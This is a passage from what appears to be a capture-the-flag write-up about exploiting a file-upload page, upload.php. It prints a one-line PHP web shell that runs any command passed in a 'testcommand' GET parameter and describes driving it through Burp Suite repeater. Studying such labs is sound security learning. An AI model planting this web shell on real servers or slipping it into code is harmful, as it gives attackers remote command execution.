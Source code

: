 ### HTTP

The upload.php webpage is pretty interesting. It's pretty simple, it lets us upload a file. I want to upload a php file, since we will probably be able to run it.&#x20;

<figure><img src="../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

The following code just creates a testcommand parameter and lets us edit it to execute that given command. To do this, I'll put it into burp suite and push it to repeater to make it a little easier to send multiple requests.

```
<?php system($_GET['testcommand']);?>
```

<figure><img src="../.gitbook/assets/image (29).png" alt=""><figcaption></figcaption></figure>
